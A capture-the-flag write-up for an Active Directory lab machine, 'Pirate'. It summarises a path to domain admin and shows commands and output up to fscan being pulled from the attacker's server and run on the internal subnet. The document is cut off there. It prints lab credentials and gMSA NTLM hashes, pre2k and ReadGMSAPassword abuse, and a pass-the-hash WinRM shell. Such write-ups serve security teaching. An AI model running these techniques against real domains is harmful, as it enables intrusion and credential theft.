









## Table of Contents

- [Summary](#Summary)
- [Machine Information](#Machine-Information)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
- [Time and Date Synchronization](#Time-and-Date-Synchronization)
- [Kerberos Configuration](#Kerberos-Configuration)
- [Active Directory Configuration Enumeration](#Active-Directory-Configuration-Enumeration)
- [Privilege Escalation to MS01$](#Privilege-Escalation-to-MS01)
    - [Pre2k Configuration Abuse](#Pre2k-Configuration-Abuse)
- [Enumeration (MS01$)](#Enumeration-MS01)
- [Privilege Escalation to gMSA_ADFS_prod$](#Privilege-Escalation-to-gMSA_ADFS_prod)
    - [Access Control Entry (ACE) ReadGMSAPassword Abuse](#Access-Control-Entry-ACE-ReadGMSAPassword-Abuse)
- [Enumeration (gMSA_ADFS_prod$)](#Enumeration-gMSA_ADFS_prod)
- [Lateral Movement](#Lateral-Movement)
- [Privilege Escalation to SYSTEM (WEB01)](#Privilege-Escalation-to-SYSTEM-WEB01)
    - [Relaying Attack](#Relaying-Attack)
    - [Resource-Based Constrained Delegation (RBCD)](#Resource-Based-Constrained-Delegation-RBCD)
- [user.txt](#usertxt)
- [Privilege Escalation to SYSTEM (DC01)](#Privilege-Escalation-to-SYSTEM-DC01)
    - [Access Control Entry (ACE) ForceChangePassword Abuse](#Access-Control-Entry-ACE-ForceChangePassword-Abuse)
    - [Service Principal Name (SPN) Hijacking](#Service-Principal-Name-SPN-Hijacking)
    - [KDC Abuse](#KDC-Abuse)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Summary

The box starts with valid domain credentials for the `pentest` user in the `Active Directory` (`AD`) environment in an `Assume Breach Scenario`. Initial reconnaissance reveals a Domain Controller on `DC01.pirate.htb` with standard `AD` services including `LDAP` `Kerberos` `SMB` and `DNS`.

Enumeration using `BloodHound` and Active Directory tools reveals several privilege escalation paths. The first step exploits `Pre-Windows 2000 Compatible Access` group membership allowing authentication as the `MS01$` computer account using weak default credentials. This machine account has `ReadGMSAPassword` permissions on `group Managed Service Accounts` (`gMSA`).

Using the `MS01$` account the  `NTLM` hash for `gMSA_ADFS_prod$` is retrieved through the `Access Control Entry` (`ACE`) of `ReadGMSAPassword`. This gMSA account provides access to the Domain Controller and reveals an internal network segment `192.168.100.0/24` containing the system `WEB01`.

By performing `Lateral Movement` to the internal network using `Ligolo-ng` the `WEB01` server can be accessed. It is vulnerable to `NTLM` relay attacks due to disabled `Server Message Block` (`SMB`) signing. An `NTLM` relay attack grants access to the `Domain Controller` (`DC`) by coercing authentication from `WEB01` to the attacker and relaying it to `LDAP` on `DC01`.

Through `Resource-Based Constrained Delegation` (`RBCD`) a `Service Ticket` is obtained to impersonate the `Administrator` on `WEB01` providing `SYSTEM` access and retrieval of `user.txt`. Additionally credentials for the `a.white` domain user are extracted from `WEB01`.

For `Privilege Escalation` to `Domain Admin` the `a.white` credentials are used with `BloodHound` revealing `ForceChangePassword` rights on `a.white_adm` which is an administrative account. After changing the password `Service Principal Name` (`SPN`) hijacking is performed by adding an `HTTP/WEB01` SPN to the Domain Controller `DC01$` computer object.

Finally `S4U2Self` and `S4U2Proxy` Kerberos extensions are abused through the hijacked SPN to obtain a service ticket for `CIFS/DC01` as `Administrator` granting Domain Admin access and allowing retrieval of `root.txt`.

## Machine Information

As is common in real life pentests, you will start the Pirate box with credentials for the following account `pentest / p3nt3st2025!&`.

## Reconnaissance

### Port Scanning

We began with our initial port scan using `Nmap` running default scripts (`-sC`) and service version detection (`-sV`). The scan revealed a typical Active Directory environment with the domain `pirate.htb` and Domain Controller `DC01.pirate.htb`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.17.202
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-04 10:07 +0100
Nmap scan report for 10.129.17.202
Host is up (0.052s latency).
Not shown: 985 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-04 16:08:04Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-04T16:09:26+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
443/tcp  open  https?
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
|_ssl-date: 2026-03-04T16:09:25+00:00; +7h00m01s from scanner time.
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
|_ssl-date: 2026-03-04T16:09:26+00:00; +7h00m01s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
|_ssl-date: 2026-03-04T16:09:25+00:00; +7h00m01s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-04T16:08:48
|_  start_date: N/A
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.86 seconds
```

We added the discovered hostnames to our `/etc/hosts` file for proper name resolution.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       kali
10.129.17.202   pirate.htb
10.129.17.202   DC01.pirate.htb
```

### Enumeration of Port 445/TCP

Next up we used `NetExec` to enumerate the `SMB` service to see if we find any useful network shares. But besides a readable `IPC$` share which would allow us to perform `RID Brute Forcing`, we didn't get back anything helpful.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ netexec smb 10.129.17.202 -u 'pentest' -p 'p3nt3st2025!&'
SMB         10.129.17.202     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:False) 
SMB         10.129.17.202     445    DC01             [+] pirate.htb\pentest:p3nt3st2025!&
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ netexec smb 10.129.17.202 -u 'pentest' -p 'p3nt3st2025!&' --shares
SMB         10.129.17.202     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:False) 
SMB         10.129.17.202     445    DC01             [+] pirate.htb\pentest:p3nt3st2025!& 
SMB         10.129.17.202     445    DC01             [*] Enumerated shares
SMB         10.129.17.202     445    DC01             Share           Permissions     Remark
SMB         10.129.17.202     445    DC01             -----           -----------     ------
SMB         10.129.17.202     445    DC01             ADMIN$                          Remote Admin
SMB         10.129.17.202     445    DC01             C$                              Default share
SMB         10.129.17.202     445    DC01             IPC$            READ            Remote IPC
SMB         10.129.17.202     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.17.202     445    DC01             SYSVOL          READ            Logon server share
```

## Time and Date Synchronization

Due to the clock skew identified during our initial scan synchronizing our system time with the Domain Controller was essential for Kerberos authentication to function properly.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
[sudo] password for kali: 
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.17.202
```

## Kerberos Configuration

With `NetExec` we automatically generated a `Kerberos` configuration file which we exported to our current terminal session for use in subsequent `Kerberos` authentication attempts.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ netexec smb 10.129.17.202 -u 'pentest' -p 'p3nt3st2025!&' --generate-krb5-file ./krb5.conf 
SMB         10.129.17.202   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.17.202   445    DC01             [+] krb5 conf saved to: ./krb5.conf
SMB         10.129.17.202   445    DC01             [+] Run the following command to use the conf file: export KRB5_CONFIG=./krb5.conf
SMB         10.129.17.202   445    DC01             [+] pirate.htb\pentest:p3nt3st2025!&
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ cat krb5.conf 
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = PIRATE.HTB

[realms]
    PIRATE.HTB = {
        kdc = dc01.pirate.htb
        admin_server = dc01.pirate.htb
        default_domain = pirate.htb
    }

[domain_realm]
    .pirate.htb = PIRATE.HTB
    pirate.htb = PIRATE.HTB
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ export KRB5_CONFIG=./krb5.conf
```

## Active Directory Configuration Enumeration

With proper Kerberos configuration in place we used `BloodHound` to collect comprehensive Active Directory enumeration data for attack path analysis.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ bloodhound-python -u 'pentest' -p 'p3nt3st2025!&' -d 'pirate.htb' -dc 'DC01.pirate.htb' -ns '10.129.17.202' -c all --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: pirate.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: DC01.pirate.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: DC01.pirate.htb
INFO: Connecting to GC LDAP server: dc01.pirate.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: WEB01.pirate.htb
INFO: Querying computer: DC01.pirate.htb
INFO: Done in 00M 26S
INFO: Compressing output into 20260306155743_bloodhound.zip
```

## Privilege Escalation to MS01$

### Pre2k Configuration Abuse

Analyzing the `BloodHound` data revealed that the `pentest` user was a member of the `Authenticated Users` group which in turn was part of the `Pre-Windows 2000 Compatible Access` group. This group membership is significant as it often indicates legacy configurations that can be exploited.









Using `NetExec` with the `pre2k` module we scanned for pre-created computer accounts which often have weak default credentials.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ netexec ldap 10.129.17.202 -u 'pentest' -p 'p3nt3st2025!&' -M pre2k
LDAP        10.129.17.202   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.17.202   389    DC01             [+] pirate.htb\pentest:p3nt3st2025!& 
PRE2K       10.129.17.202   389    DC01             Pre-created computer account: MS01$
PRE2K       10.129.17.202   389    DC01             Pre-created computer account: EXCH01$
PRE2K       10.129.17.202   389    DC01             [+] Found 2 pre-created computer accounts. Saved to /home/kali/.nxc/modules/pre2k/pirate.htb/precreated_computers.txt
PRE2K       10.129.17.202   389    DC01             [+] Successfully obtained TGT for ms01@pirate.htb
PRE2K       10.129.17.202   389    DC01             [+] Successfully obtained TGT for exch01@pirate.htb
PRE2K       10.129.17.202   389    DC01             [+] Successfully obtained TGT for 2 pre-created computer accounts. Saved to /home/kali/.nxc/modules/pre2k/ccache
```

The module successfully identified two pre-created computer accounts `MS01$` and `EXCH01$` and even obtained `TGT` tickets for them. Now we verified authentication using the default machine account password pattern and got lucky.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ netexec ldap 10.129.17.202 -u 'MS01$' -p 'ms01' -k
LDAP        10.129.17.202   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.17.202   389    DC01             [+] pirate.htb\MS01$:ms01
```

| Username | Password |
| -------- | -------- |
| MS01$    | ms01     |

## Enumeration (MS01$)

With access as the `MS01$` machine account we returned to `BloodHound` to identify what privileges this account possessed.

The analysis revealed that `MS01$` had `ReadGMSAPassword` permissions on group Managed Service Accounts (gMSA) which would be our next target.







## Privilege Escalation to gMSA_ADFS_prod$

### Access Control Entry (ACE) ReadGMSAPassword Abuse

Using our `MS01$` credentials we leveraged the `ReadGMSAPassword` permission to retrieve the `NTLM` hash for the gMSA accounts.

We successfully retrieved the `NTLM` hashes for `gMSA_ADCS_prod$` and `gMSA_ADFS_prod$`. The gMSA accounts provided us with access via `WinRM` to the box.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ netexec ldap 10.129.17.202 -u 'MS01$' -p 'ms01' -k --gmsa
LDAP        10.129.17.202   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.17.202   389    DC01             [+] pirate.htb\MS01$:ms01 
LDAP        10.129.17.202   389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.17.202   389    DC01             Account: gMSA_ADCS_prod$      NTLM: 25c7f0eb586ed3a91375dbf2f6e4a3ea     PrincipalsAllowedToReadPassword: Domain Secure Servers
LDAP        10.129.17.202   389    DC01             Account: gMSA_ADFS_prod$      NTLM: fd9ea7ac7820dba5155bd6ed2d850c09     PrincipalsAllowedToReadPassword: Domain Secure Servers
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i pirate.htb -u 'gMSA_ADFS_prod$' -H fd9ea7ac7820dba5155bd6ed2d850c09
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\gMSA_ADFS_prod$\Documents>
```

## Enumeration (gMSA_ADFS_prod$)

Next we began enumerating the environment as `gMSA_ADFS_prod$`.

```cmd
*Evil-WinRM* PS C:\Users\gMSA_ADFS_prod$\Documents> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== ==============================================
pirate\gmsa_adfs_prod$ S-1-5-21-4107424128-4158083573-1300325248-4108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ==================================================
PIRATE\Domain Computers                     Group            S-1-5-21-4107424128-4158083573-1300325248-515 Mandatory group, Enabled by default, Enabled group
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

We already knew about the server `WEB01`. Therefore we checked the network configuration to see if there were another `Subnet` we eventually needed to forward our traffic to.

The configuration revealed a `Hyper-V` virtual network adapter with an internal subnet `192.168.100.0/24`. This indicated additional machines on an internal network as we suggested.

```shell
*Evil-WinRM* PS C:\Users\gMSA_ADFS_prod$\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : DC01
   Primary Dns Suffix  . . . . . . . : pirate.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : pirate.htb
                                       .htb

Ethernet adapter vEthernet (Switch01):

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Hyper-V Virtual Ethernet Adapter
   Physical Address. . . . . . . . . : 00-15-5D-0B-D0-00
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::d976:c606:587e:f1e1%8(Preferred)
   IPv4 Address. . . . . . . . . . . : 192.168.100.1(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
   DHCPv6 IAID . . . . . . . . . . . : 201332061
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2F-D7-D5-C5-00-0C-29-DE-64-22
   DNS Servers . . . . . . . . . . . : fec0:0:0:ffff::1%1
                                       fec0:0:0:ffff::2%1
                                       fec0:0:0:ffff::3%1
   NetBIOS over Tcpip. . . . . . . . : Enabled

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-94-9C-27
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.129.17.202(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Thursday, March 5, 2026 4:20:52 PM
   Lease Expires . . . . . . . . . . : Friday, March 6, 2026 1:50:49 PM
   Default Gateway . . . . . . . . . : 10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

## Lateral Movement

To discover potential hosts we uploaded `fscan` for a quick and easy network scan.

- [https://github.com/shadow1ng/fscan](https://github.com/shadow1ng/fscan)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
*Evil-WinRM* PS C:\Users\gMSA_ADFS_prod$\Documents> iwr 10.10.16.10/fscan.exe -o fscan.exe
```

The scan discovered `WEB01` at `192.168.100.2` running an `IIS` web server. Now we needed to establish tunneling to access this internal host.

```shell
*Evil-WinRM* PS C:\Users\gMSA_ADFS_prod$\Documents> .\fscan.exe -h 192.168.100.1/24
fscan.exe :
